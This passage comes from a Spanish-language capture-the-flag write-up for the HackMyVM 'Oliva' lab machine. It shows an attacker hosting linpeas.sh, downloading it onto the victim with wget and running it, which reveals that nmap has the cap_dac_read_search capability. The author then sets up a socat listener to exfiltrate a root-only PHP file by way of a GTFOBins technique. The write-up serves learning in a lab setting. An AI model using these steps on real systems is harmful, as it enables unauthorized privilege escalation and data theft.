 Una vez descargado me hice un pequeño servidor con **`Python`**, de tal manera que después, en la máquina víctima, pueda descargarme el fichero con **`WGET`**:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Oliva/exploits]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```sh
oliva@oliva:/tmp$ wget http://192.168.1.108/linpeas.sh
--2023-07-08 00:05:50--  http://192.168.1.108/linpeas.sh
Conectando con 192.168.1.108:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 836190 (817K) [text/x-sh]
Grabando a: «linpeas.sh»

linpeas.sh                        100%[============================================================>] 816,59K  --.-KB/s    en 0,01s   

2023-07-08 00:05:50 (69,2 MB/s) - «linpeas.sh» guardado [836190/836190]
```

Por último debemos darle permisos de ejecuión:

```sh
oliva@oliva:/tmp$ chmod +x linpeas.sh
```

Una vez hecho todo lo anterior podemos correrlo en el sistema y ver qué información nos otorga:

```sh
oliva@oliva:/tmp$ ./linpeas.sh
[...]

Files with capabilities (limited to 50):
/usr/bin/nmap cap_dac_read_search=eip
/usr/bin/ping cap_net_raw=ep

[...]
```

Vemos que **`NMAP`** tiene la capacidad **`cap_dac_read_search`**, eso significa que podemos leer cualquier fichero, aunque el dueño sea **`root`**. Por desgracia no podemos leer la clave **`SSH`** de **`root`** porque no existe, por tanto debemos pensar otra manera de obtener acceso.

Tras estar un buen rato pensado me acordé del fichero `PHP` del principio, nos decía que ahí estaba la contraseña de **`root`**, pero no la veíamos.

Para poder explotar esta capacidad me fui a [**`GTFOBins`**](https://gtfobins.github.io/gtfobins/nmap/#file-upload), ahí describían un método para que nosotros, como atacantes, poder recibir un fichero local. Ya que teníamos la habilidad de leer cualquier fichero me dispuse a leer el ya mencionado `PHP`, el cual como **`Oliva`** no puedo leer.

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Oliva]
└─# socat -v tcp-listen:8080,reuseaddr,fork -
```
